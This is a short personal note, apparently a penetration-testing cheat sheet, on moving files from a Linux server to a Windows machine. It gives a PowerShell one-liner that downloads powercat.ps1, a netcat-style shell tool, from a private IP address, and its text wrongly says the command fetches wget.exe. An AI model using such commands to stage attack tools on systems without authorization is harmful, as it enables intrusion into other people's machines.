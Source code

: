 # Windows Notes

### File Transfers
Start a server on linux machine
Enter following command on windows client
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.7.46:8000/powercat.ps1','C:\Files\Tech\tmp\powercat.ps1')"
```
Attempts to download wget.exe from linux server.

`-c` executes supplied command (in double quotes)
`new-object` for .net framework or com object
`WebClient`  WebClient class is used to access resources identified by a URI